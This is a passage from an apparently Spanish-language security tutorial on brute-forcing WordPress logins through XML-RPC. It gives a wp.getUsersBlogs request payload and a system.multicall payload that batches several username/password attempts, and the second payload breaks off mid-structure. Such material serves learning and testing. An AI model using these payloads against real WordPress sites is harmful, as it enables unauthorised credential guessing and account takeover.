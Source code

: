 En lo que se basaría el bruteforce sería en enviar multiples llamadas como la que acabamos de hacer pero usando el metodo `system.multicall` y con el siguiente payload:

``` 
# ESTE PAYLOAD SERÍA UNA PETICIÓN

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>USER</value></param> 
<param><value>PASS</value></param> 
</params> 
</methodCall>
```

``` 
# ESTE PAYLOAD SERÍA CON VARIAS PETICIONES POR LLAMADA
<?xml version="1.0"?>
<methodCall>
  <methodName>system.multicall</methodName>
  <params>
    <param>
      <value>
        <array>
          <data>
            <value>
              <struct>
                <member>
                  <name>methodName</name>
                  <value><string>wp.getUsersBlogs</string></value>
                </member>
                <member>
                  <name>params</name>
                  <value>
                    <array>
                      <data>
                        <value><array><data>
                          <value><string>USER</string></value>
                          <value><string>PASS</string></value>
                        </data></array></value>
                      </data>
                    </array>
                  </value>
                </member>
              </struct>
            </value>
            <value>
              <struct>
                <member>
                  <name>methodName</name>
                  <value><string>wp.getUsersBlogs</string></value>
                </member>
                <member>
                  <name>params</name>
                  <value>
                    <array>
                      <data>
                        <value><array><data>
                          <value><string>USER</string></value>
                          <value><string>PASS</string></value>
                        </data></array></value>
                      </data>
                    </array>
                  </value>
```